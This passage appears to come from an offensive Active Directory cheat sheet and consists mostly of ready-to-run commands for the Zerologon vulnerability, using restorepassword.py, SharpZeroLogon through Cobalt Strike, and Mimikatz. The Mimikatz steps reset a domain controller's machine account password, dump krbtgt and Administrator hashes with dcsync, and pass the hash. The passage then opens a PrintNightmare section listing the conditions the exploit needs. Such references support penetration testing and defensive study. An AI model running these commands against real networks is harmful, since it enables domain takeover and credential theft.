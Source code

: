   ```powershell
  python restorepassword.py CORP/DC01@DC01.CORP.LOCAL -target-ip 172.16.1.5 -hexpass e6ad4c4f64e71cf8c8020aa44bbd70ee711b8dce2adecd7e0d7fd1d76d70a848c987450c5be97b230bd144f3c3
  deactivate
  ```

* `nccfsas` - .NET binary for Cobalt Strike's execute-assembly
  ```powershell
  git clone https://github.com/nccgroup/nccfsas
  # Check
  execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local

  # Resetting the machine account password
  execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -reset

  # Testing from a non Domain-joined machine
  execute-assembly SharpZeroLogon.exe win-dc01.vulncorp.local -patch

  # Now reset the password back
  ```

* `Mimikatz` - 2.2.0 20200917 Post-Zerologon
  ```powershell
  privilege::debug
  # Check for the CVE
  lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$

  # Exploit the CVE and set the computer account's password to ""
  lsadump::zerologon /target:DC01.LAB.LOCAL /account:DC01$ /exploit

  # Execute dcsync to extract some hashes
  lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:krbtgt /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm
  lsadump::dcsync /domain:LAB.LOCAL /dc:DC01.LAB.LOCAL /user:Administrator /authuser:DC01$ /authdomain:LAB /authpassword:"" /authntlm

  # Pass The Hash with the extracted Domain Admin hash
  sekurlsa::pth /user:Administrator /domain:LAB /rc4:HASH_NTLM_ADMIN

  # Use IP address instead of FQDN to force NTLM with Windows APIs 
  # Reset password to Waza1234/Waza1234/Waza1234/
  # https://github.com/gentilkiwi/mimikatz/blob/6191b5a8ea40bbd856942cbc1e48a86c3c505dd3/mimikatz/modules/kuhl_m_lsadump.c#L2584
  lsadump::postzerologon /target:10.10.10.10 /account:DC01$
  ```

#### PrintNightmare

> CVE-2021-1675 / CVE-2021-34527

The DLL will be stored in `C:\Windows\System32\spool\drivers\x64\3\`.
The exploit will execute the DLL either from the local filesystem or a remote share.

Requirements:
* **Spooler Service** enabled (Mandatory)
* Server with patches < June 2021
* DC with `Pre Windows 2000 Compatibility` group
* Server with registry key `HKEY_CURRENT_USER\Software\Policies\Microsoft\Windows NT\Printers\PointAndPrint\NoWarningNoElevationOnInstall` = (DWORD) 1
* Server with registry key `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System\EnableLUA` = (DWORD) 0
